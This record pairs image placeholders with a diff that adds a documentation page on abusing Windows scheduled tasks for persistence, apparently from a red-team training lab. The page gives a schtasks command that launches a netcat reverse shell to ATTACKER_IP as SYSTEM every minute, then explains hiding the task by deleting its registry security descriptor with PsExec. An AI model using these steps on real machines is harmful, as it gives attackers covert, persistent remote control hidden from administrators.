

Before and after one commit to tymyrddin/red-hurdles, a Sphinx documentation site: the page built from source/docs/persistence/tasks.md, in a window 1280 px wide and 1137 px high. Shown: the whole window at 91% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/source/docs/persistence/tasks.md
+++ b/source/docs/persistence/tasks.md
@@ -1 +1,34 @@
 # Abusing scheduled tasks
+
+The most common way to schedule tasks is using the built-in
+[Windows task scheduler](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks).
+The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that
+will activate at specific hours, repeat periodically or even trigger when specific system events occur.
+
+Create a task that runs a reverse shell every minute. In a real-world scenario, you will not want your payload to
+run that often, but we don't want to wait too long for this exercise:
+
+    schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
+    SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
+
+The `/sc` and `/mo` options indicate that the task should be run every single minute. The `/ru` option indicates
+that the task will run with `SYSTEM` privileges. Check with:
+
+    schtasks /query /tn thm-taskbackdoor
+
+To hide the scheduled task, make it invisible to any user in the system by deleting its Security Descriptor (SD).
+The security descriptor is an ACL that states which users have access to the scheduled task. If a user is not
+allowed to query a scheduled task, it will not be visible, as Windows only shows the tasks that a user has permission
+to use. Deleting the `SD` is equivalent to disallowing all users' access to the scheduled task, including
+Administrators.
+
+The security descriptors of all scheduled tasks are stored in
+`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. There is a registry key for every task,
+under which a value named `SD` contains the security descriptor. You can only erase the value if you have SYSTEM
+privileges.
+
+Use `psexec` (available in `C:\tools`) to open `Regedit` with `SYSTEM` privileges:
+
+    c:\tools\pstools\PsExec64.exe -s -i regedit
+
+And delete the security descriptor for the task.
```
